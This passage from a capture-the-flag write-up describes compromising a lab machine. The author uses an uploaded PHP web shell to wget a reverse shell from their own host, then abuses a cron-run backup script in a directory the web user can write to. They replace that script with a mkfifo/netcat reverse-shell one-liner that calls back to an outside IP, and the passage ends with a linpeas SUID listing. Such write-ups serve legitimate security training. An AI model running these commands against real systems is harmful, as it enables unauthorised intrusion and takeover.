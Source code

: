 To further penetrate the system, I set out to get a stabilized reverse shell. I hosted a reverse shell from my side and accessed it through the cmd argument. 

!!! bug "RCE"
    ```http
    GET /management/uploads/1677425460_evil.php?cmd=wget+http%3a//10.17.3.217%3a8000/shell.php HTTP/1.1
    ```
    ```http
    GET /management/uploads/1677425460_evil.php?cmd=chmod+777+shell.php HTTP/1.1
    ```

Upon accessing <a>http://10.10.72.232:445/management/uploads/shell.php</a>, 

I successfully gained a reverse shell for the **`www-data`** user.

## <b>Privilege Escalation</b>

### <b>Gaining user access (plot_admin)</b>

Next, I sent a linpeas script to the system and executed it and these were the following results:

* Sudo version 1.8.31
* CVE-2022-2588
* \* *     * * *   plot_admin /var/www/scripts/backup.sh
* 127.0.0.1:3306
* 127.0.0.1:33060
* /swap.img

It revealed that there was a script running in a cron job every minute. I believed this to be the door for privilege escalation.

!!! warning "Something Seemed off"
    <span>The **`backup.sh`** file was owned by **plot_admin**, while **`/var/www/scripts/`** was owned by **www-data** (the current user). </span>
    
This was a  security risk as anyone could delete the content from the folder and recreate it. So, I took this advantage to give permissions to **user.txt** and **tms_backups** in the **`/home/plot_admin`** folder and accessed the first flag.

<img id="image5" />

### <b>Gaining root access</b>

From there, I escalated my privilege to plot_admin by overwriting the backup.sh with a reverse shell. 

```s
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.3.217 5432 >/tmp/f  
```

Running **linpeas.sh** again, I found the following:

```s linenums="1" hl_lines="10"
-rwsr-xr-x   1 root     root               68208 Jul 14  2021 /usr/bin/passwd
-rwsr-xr-x   1 root     root              166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x   1 root     root               88464 Jul 14  2021 /usr/bin/gpasswd
-rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x   1 root     root               85064 Jul 14  2021 /usr/bin/chfn
-rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x   1 root     root               53040 Jul 14  2021 /usr/bin/chsh
-rwsr-xr-x   1 root     root               39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x   1 root     root               39008 Feb  5  2021 /usr/bin/doas
-rwsr-xr-x   1 root     root               44784 Jul 14  2021 /usr/bin/newgrp
-rwsr-xr-x   1 root     root               19040 Jun  3  2021 /usr/libexec/polkit-agent-helper-1
-rwsr-xr-x   1 root     root              130408 Mar 26  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x   1 root     root              473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
```